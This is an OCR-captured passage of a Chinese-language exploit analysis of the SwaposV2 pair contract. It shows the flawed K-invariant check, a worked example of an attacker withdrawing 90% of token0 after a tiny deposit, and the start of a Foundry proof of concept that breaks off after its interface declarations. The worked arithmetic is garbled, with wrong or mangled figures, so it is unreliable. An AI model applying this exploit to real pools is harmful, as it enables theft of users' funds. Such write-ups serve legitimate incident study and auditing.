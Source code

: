 ### require 5

```solidity
uint balance0Adjusted = balance0.mul(10000).sub(amount0In.mul(10));
uint balance1Adjusted = balance1.mul(10000).sub(amount1In.mul(10));
require(balance0Adjusted.mul(balance1Adjusted) >=uint(_reserve0).mul(_reserve1).mul(1000 ** 2),"SwaposV2: K"
);
```

以上面的token0库存（旧值）100， ，存入1， 划走90为例

balance0Adjusted = 1110000 - 1010 = 109000

 假设token1库存100, balance1 = 100

 balance1Adjusted = 100*10000 - 0*10 = 1000000

满足 1090001000000 >= 10010010001000 开绿灯



全部`require`都满足, 那么攻击者的 `SwaposV2.swap(<90% of token0 in the pool>, 0, <address of attacker>, "")` 就不会被revert



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

// https://twitter.com/CertiKAlert/status/1647530789947469825
interface IWETH {
    function deposit() external payable;

    function transfer(address to, uint256 value) external returns (bool);

    function approve(address guy, uint256 wad) external returns (bool);

    function withdraw(uint256 wad) external;

    function balanceOf(address) external view returns (uint256);
}

interface ISWP {
    function swap(
        uint amount0Out,
        uint amount1Out,
        address to,
        bytes calldata data
    ) external;

    function getReserves()
        external
        view
        returns (
            uint112 _reserve0,
            uint112 _reserve1,
            uint32 _blockTimestampLast
        );

    function balanceOf(address) external view returns (uint256);

    function transfer(address to, uint256 value) external returns (bool);
```